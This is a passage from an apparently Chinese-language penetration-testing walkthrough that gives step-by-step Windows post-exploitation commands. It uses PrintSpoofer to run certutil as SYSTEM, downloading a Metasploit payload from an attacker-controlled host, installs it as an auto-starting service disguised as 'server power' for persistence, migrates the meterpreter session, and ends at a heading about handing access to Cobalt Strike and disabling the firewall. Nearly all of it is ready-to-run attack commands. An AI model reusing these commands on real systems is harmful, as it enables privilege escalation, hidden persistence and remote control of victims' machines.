 ```bash
PrintSpoofer.exe -i -c "certutil -urlcache -split -f http://192.168.0.101:7777/4321msf.exe 4321msf.exe"
```

4、设置服务方式执行正向后门（非必要）

```bash
PrintSpoofer.exe -i -c "sc create \"server power\" binpath= \"C:\ProgramData\4321msf.exe""
PrintSpoofer.exe -i -c "sc description \"server power\" \"description\""
PrintSpoofer.exe -i -c "sc config \"server power\" start= auto"
启动后门
PrintSpoofer.exe -i -c "net start \"server power\""
```

4、直接执行正向后门

```bash
c:\ProgramData >PrintSpoofer.exe -i -c "4321.exe"
```

5、迁移进程

```msf
meterpreter > run post/windows/manage/migrate
```

6、上线

<img src=".\图片\Snipaste_2023-05-16_17-00-10.png" alt="Snipaste_2023-05-16_17-00-10" style="zoom:80%;" />

<img src=".\图片\Snipaste_2023-05-16_16-59-21.png" alt="Snipaste_2023-05-16_16-59-21" style="zoom:80%;" />

## 权限移交CS

关闭防火墙：
